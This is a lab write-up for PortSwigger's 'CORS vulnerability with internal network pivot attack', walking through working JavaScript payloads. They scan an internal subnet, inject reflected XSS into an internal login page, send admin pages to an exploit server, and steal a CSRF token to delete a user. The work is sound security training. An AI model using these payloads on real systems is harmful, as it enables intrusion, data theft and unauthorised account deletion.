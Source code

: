 ```yaml
---
layout: post
title:  "CORS vulnerability with internal network pivot attack"
date:   2020-03-10 16:52:46 +0100
categories: writeup portswigger
---
```

# *Introduction*
This writup is about how i solved port swigger's expert lab ["CORS vulnerability with internal network pivot attack"](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack). This is the first expert level lab i solved and it required me multiple steps to exploit the vulnerability.

The lab description says:
>>This website has an insecure CORS configuration in that it trusts all internal network origins.
>>To help solve this lab you can use the Burp Collaborator client or use the access logs provided on the exploit server.
>>This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (192.168.0.0/24, port 8080) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user Carlos.

This lab, like many others, hosts also an exploit server where we can create a custom response that will be delivered to the victim. The exploit server features an access log page where we can check all the requests that were made to it. This is very usefull for out-of-band exfiltration attacks like this one.
Here is what the [exploit server page](/assets/exploit-server.png) and the [access log](/assets/access_log.png) pages look like in case you have never seen them. As we can see the exploit server has the `Deliver exploit to victim` functionality, that's what we will use to deliver the exploits.

Also, this lab is based on a CORS misconfiguration. You can read more about it [here](https://portswigger.net/web-security/cors). Personally, to make javascript perform external requests, I used the [fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) and i would suggest you to give it a try if you never heard of it. 

<br/>
# *First step: scanning the internal network*
As suggested by the lab description, the first thing to do is scan the victim's internal network. I did this by deploing the following script (thought the exploit server body):
{% highlight javascript %}
<script>
var oobserver="your-server-URL"; //your exploit server url goes here
var found=false;
scan();
async function scan(){
 for(var i=1;i<256 && !found;i++){
 fetch(oobserver+"?testing="+i);
 await fetch("http://192.168.0."+i+":8080").then(res=>res.text()).then(t=>{
  fetch(oobserver+"?found="+i+"&res="+encodeURI(t));
  console.log(i);
  found=true;
  }).catch(err=>(console.log("Error")));
 }
}
</script>
{% endhighlight %}
This code will make a request to all ip's in the adress range `192.168.0.1` to `192.168.0.255` on port `8080` and log this process to our exploit server. It stops when it requests something that exists and logs the requested page to our server. <br/>*Note that the fetch api makes no differences between a CORS error and a network error, so this scan is only possible becouse the internal network allows requests from any origin.* 

Once we have deploied this code to the victim, [this](/assets/scanning_results.png) is what we find if we check our logs:
![Logs after scanning](/assets/scanning_results.png)

As we can see we have located the internal server (`192.168.0.236:8080` in this case). If we copy-paste the page passed through the res parameter to our logs in a URL Decoder we get this:
{% highlight html %}
<!DOCTYPE html>
<html>
 <head>
   <link href="/resources/css/labs.css" rel="stylesheet">
   <title>CORS vulnerability with internal network pivot attack</title>
 </head>
 <body>
   <div>
       <script src="/resources/js/labHeader.js"></script>
   <div id="labHeader">
        ByzfRyDABDxPnTBh3§LIGHTxHkQmPFUnkvfVANl
   </div>
   <section class="maincontainer is-page">
    <div class="container">
     <h1>Login</h1>
     <section>
      <form class="login-form" method="POST">
         <input required type="hidden" name="csrf" value="wTzcJ8v3oEBs97IqJIPINAf9nOOWFtnM">
         <label>Username</label>
         <input required type="username" name="username">
         <label>Password</label>
         <input required type="password" name="password">
         <button class="button" type="submit"> Log in </button>
      </form>
     </section>
     </div>
    </section>
   </div>
  </body>
</html>
{% endhighlight %}
As we can see the internal server hostes a login page that also exposes some csrf token. I actually find a way to retrive the token on this page but it wasn't needed for the lab to be exploited so i won't show it here.<br/>
*Note: One important thing that I didn't notice at first is that our request to `192.168.0.236:8080` was redirected to `192.168.0.236:8080/login`. This is important because in the next step we need to find a vulnerability on this endpoint.*

<br/>
# *Second step: find a vulnerability in the internal server*
After i realized the internal request was redirected as said above, i restarted to try all my exploit ideas. The first one was actually the right one. I tried to pass a custom username and password to the request. If they are reflected in the response, this will probably lead to XSS.
{% highlight javascript %}
<script>
var serverip="the-internal-server-ip" //Use the server ip found in Step 1
var oobserver ="exploit-server-URL"; //Use your exploit server URL
fetch("http://"+serverip+":8080/login?username=userxss&password=passxss").then(res=>res.text()).then(res=>
fetch(oobserver+"?res="+encodeURI(res)));
</script>
{% endhighlight %}
If we deliver this, as previously, we get a slightly different response as before:
{% highlight html linenos %}
<!DOCTYPE html>
<html>
 <head>
   <link href="/resources/css/labs.css" rel="stylesheet">
    <title>CORS vulnerability with internal network pivot attack</title>
 </head>
 <body>
    <div>
       <script src="/resources/js/labHeader.js"></script>
       <div id="labHeader">
           NaKpqLuewmmGSnnf3§LIGHTXbhOORABJiwyfTVk
        </div>
        <section class="maincontainer is-page">
          <div class="container">
            <h1>Login</h1>
              <section>
                <form class="login-form" method="POST">
                  <input required type="hidden" name="csrf" value="jMoaAt9acuEn8IN2aL4RX6merlsf5cha">
                   <label>Username</label>
                   <input required type="username" name="username" value="userxss">
                   <label>Password</label>
                   <input required type="password" name="password">
                   <button class="button" type="submit"> Log in </button>
                 </form>
              </section>
          </div>
       </section>
    </div>
  </body>
</html>
{% endhighlight %}
As we expected the username is reflected in the response(line 20). <br/>What this means is that we can redirect the victim to his internal login page and execute scripts from there, probably bypassing some CORS directives. 

# *Third step: retrieving the Admin Panel*
At this point, i had some trouble. I was trying to fetch the publicly avaiable lab site, as i tought i would get a different version of it (with admin privileges). Anyway this wasn't the case. The admin page was located on the local server at `/admin`. Once i realized this, after multiple tries, it was easy to Inject some javscript in the local server (Second step) to fetch for us the admin page:
{% highlight javascript %}
<script>
var serverip ="internal-server-ip"  //Use server ip found in step 1
var oobserver ="your-exploit-server-URL"; //Use your exploit server URL
var exploit = "\"><script>fetch('/admin',{credentials: 'include'}).then(res=>res.text()).then(res=>fetch(`"+oobserver+"?res=${encodeURI(res)}`));</scr"+"ipt><\"";
exploit= encodeURI(exploit);
window.location="http://"+serverip+":8080/login?username="+exploit+"&password=pass";
</script>
{% endhighlight %}
The hard part here was to pay attention to all double quotation mark that needed to be in the exploit, some are escaped and for other I used `'` instead. Also I made use of javascript's [string templates](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals) to construct string from within the injected script.
<br/>*Note that the injected string has to start with `">` to escape the attribute value in witch it is injected. Also the closing script tag is constucted using two strings because of [a js known problem](https://stackoverflow.com/questions/1659749/script-tag-in-javascript-string).*

Anyway, by deploying this code to the victim as seen before, we get a request in our logs, containing the following page:
{% highlight html%}
<!DOCTYPE html>
<html>
    <head>
        <link href="/resources/css/labs.css" rel="stylesheet">
        <title>CORS vulnerability with internal network pivot attack</title>
    </head>
    <body>
        <div theme="ecommerce">
            <script src="/resources/js/labHeader.js"></script>
            <div id="labHeader">
                eHPKrwPVLTmsxqOI3§LIGHTTenYEaocXAMpkyHl
            </div>
            <section class="maincontainer">
                <div class="container is-page">
                    <form class="login-form" action="/admin/delete" method="POST">
                        <input required type="hidden" name="csrf" value="gFgYQSC4C1lTjWdzHSFPaEtgT6mZcpGB">
                        <label>Username</label>
                        <input required type="text" name="username">
                        <button class="button" type="submit"> Delete user </button>
                    </form>
                </div>
            </section>
        </div>
    </body>
</html>

{% endhighlight %}
**It's the ADMIN Page!!**

<br/>
# *Last Step: delete the user 'carlos'*
Now, all we are left to to, is to make our victim perform a POST(or GET) request to `/admin/delete` from his internal server containing as data the username 'carlos' ant the csrf token retrieved on `/admin`
I came up with this working exploit:
{% highlight javascript %}
<script>
var serverip= "internal-server-ip" //Use ip found in step 1
var exploit = "\"><script>fetch('/admin',{credentials: 'include'}).then(res=>res.text()).then(res=>{var csrf=res.match(/name=\"csrf\" value=\"(.{32})\"/)[1];var amp='\\x26';fetch(`/admin/delete?username=carlos${amp}csrf=${encodeURI(csrf)}`);});</scr"+"ipt><\"";
exploit= encodeURI(exploit);
window.location="http://"+serverip+":8080/login?username="+exploit+"&password=pass";
</script>
{% endhighlight %}
This code retrieves the csrf token from the `/admin` endpoint by using a ReGex, then it performs a request to `/admin/delete` as described above.Here the one thing that gave me problems, was the `&` sign. Transmitting it was a problem because it was interpreted as a parameter delimiter in the first request (the same that injected the script). At the end i came up with the workaround you see above.

*After delivering this code to the victim The magic popup come up!*

![Solved Lab](/assets/lab_solved.png)

<br/>
# *The End*
As a conclution, i'm new to web vulnerability and it was a great journey to complete this lab. I'm currently learning all this stuff from [port swigger](https://portswigger.net/), so go check them out! Hope you enjoyed reading ;D

